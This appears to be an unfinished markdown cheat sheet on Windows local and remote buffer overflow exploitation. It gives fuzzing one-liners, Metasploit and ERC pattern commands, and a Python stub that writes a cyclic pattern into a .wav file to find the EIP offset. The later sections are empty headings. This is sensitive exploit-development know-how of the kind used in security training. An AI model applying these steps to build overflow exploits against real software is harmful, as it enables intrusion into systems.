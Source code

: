 # Local Buffer Overflow
## Fuzzing

```
python -c "print('A'*10000)"
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

## Controlling EIP

```
/usr/bin/msf-pattern_create -l 5000

ERC --pattern c 5000
```

win32bof_exploit.py

```
def eip_offset():
	payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5...Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk", "utf-8")

	with open('pattern.wav', 'wb') as f:
		f.write(payload)

eip_offset()
```

## Indetyfing Bad Characters





## Finding a Return Instruction



## Jumping to Shellcode



# Remote Buffer Overflow

## Remote Fuzzing




## Building a Remote Exploit



## Remote Exploitation